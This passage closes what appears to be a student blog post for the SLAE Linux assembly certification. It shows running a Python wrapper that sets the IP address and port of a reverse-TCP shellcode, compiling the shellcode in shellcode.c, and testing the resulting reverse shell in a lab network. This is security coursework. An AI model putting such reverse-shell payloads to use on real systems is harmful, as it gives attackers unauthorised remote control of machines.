 Run the python wrapper script with the ip address and desired port as arguments.
```
python ip-port-config-shell-reverse-tcp.py 192.168.56.102 6767
```
![Python Wrapper IP and Port](/assets/asn-2-ip-port-config-script.PNG)

Once again insert the shellcode in ```shellcode.c``` then compile the file. Now its time to test our reverse shell once again.

![Reverse Shell Network Machine](/assets/asn-2-connect-back-network-machine.PNG)

And we are done :)

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: **SLAE-933**
